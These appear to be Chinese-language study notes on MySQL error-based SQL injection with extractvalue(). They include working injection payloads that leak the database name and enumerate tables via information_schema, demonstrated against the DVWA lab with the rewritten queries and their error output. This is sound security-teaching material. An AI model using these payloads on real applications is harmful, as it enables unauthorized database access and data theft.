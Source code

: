 - 报错注入常用函数
  - extractvalue()函数
    - 功能：此函数从目标XML中返回包含所查询值得字符串。
    - 语法：`extractvalue(XML_document, xpath_string)`
      - 参数1：string格式，为XML文档对象的名称
      - 参数2：xpath_string（xpath格式的字符串），为XML文档的路径
    - extractvalue()使用时，当xpath_string格式出现错误，mysql则会爆出xpath语法错误(xpath syntax)
    ```sql
    select user,password from users where user_id = 1
    and extractvalue(1,0x7e);

    select user,password from users where user_id = 1 
    and extractvalue(1,concat(0x7e,(select user()),0x7e))

    -- 由于0x7e就是~，~不属于xpath语法格式，因此报出xpath语法错误
    ```

- 报错注入的利用条件
  - 必须是MySQL报错，并且有报错返回前端
  - 必须要用到对应的报错函数触发函数语法规则的报错，MySQL本身的语法错误不会解析SQL语句，只有函数语法规则的报错才会解析SQL语句 
  - <font color=tomato>这里重点是，利用函数语法规则去解析SQL语句</font>

- 实操演示
```
求库名：
前端：
1' and extractvalue(1,concat(0x7e,database())) # 

后端：
SELECT first_name,last_name
FROM users
WHERE user_id = 1
AND extractvalue(
    1,
    concat(
        0x7e,
        database()
    )
);

// XPATH syntax error: '~dvwa'

求表名：
方法1：直接查询出所有的表名(有字符数量的限制)
前端：
1' and extractvalue(1,concat(0x7e,(select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA = 'dvwa'))) # 

后端： 
SELECT first_name,last_name
FROM users
WHERE user_id = 1
AND extractvalue(
    1,
    concat(
        0x7e,
        (
          SELECT group_concat(TABLE_NAME)
          FROM information_schema.TABLES
          WHERE TABLE_SCHEMA = 'dvwa'
        )
    )
);

// XPATH syntax error: '~guestbook,users'

```